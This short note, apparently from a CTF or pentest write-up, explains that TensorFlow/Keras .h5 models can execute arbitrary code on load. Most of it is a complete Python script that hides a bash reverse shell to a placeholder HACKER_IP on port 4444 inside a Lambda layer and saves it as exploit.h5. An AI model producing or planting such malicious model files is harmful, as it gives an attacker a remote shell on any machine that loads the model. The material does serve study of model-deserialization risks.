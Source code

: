 We train IA using `.h5` file 

### TensorFlow

TensorFlow permet de créer, entraîner et déployer facilement des modèles de ML qui peuvent s'exécuter dans n'importe quel environnement.

TensorFlow models can execute arbitrary code during deserialization ([reference blog](https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model)).

```python
import tensorflow as tf  
  
def exploit(x):  
	import os  
	os.system('/bin/bash - c "/bin/bash -i >& /dev/tcp/HACKER_IP/4444 0>&1"')  
	return x  
  
model = tf.keras.Sequential()  
model.add(tf.keras.layers.Input(shape=(64,)))  
model.add(tf.keras.layers.Lambda(exploit))  
model.compile()  
model.save("exploit.h5")
```

